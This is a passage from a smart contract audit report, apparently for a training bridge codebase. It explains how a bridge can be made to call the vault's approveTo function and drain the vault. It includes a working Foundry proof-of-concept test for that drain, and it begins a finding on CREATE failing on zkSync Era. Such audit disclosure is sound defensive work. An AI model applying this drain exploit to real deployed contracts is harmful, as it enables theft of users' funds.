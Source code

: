 **Impact:** The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:** To reproduce, i****nclude the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

**Recommended Mitigation:** Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.


### [H-5] `CREATE` opcode does not work on zksync era

**Description:** In the current code devs are using CREATE  but in zkSync Era, CREATE for arbitrary bytecode is not available, so a revert occurs in the `deployToken` process. 

According to zkSync `The following code will not function correctly because the compiler is not aware of the bytecode beforehand:`

```javascript
function myFactory(bytes memory bytecode) public {
   assembly {
      addr := create(0, add(bytecode, 0x20), mload(bytecode))
   }
}
```
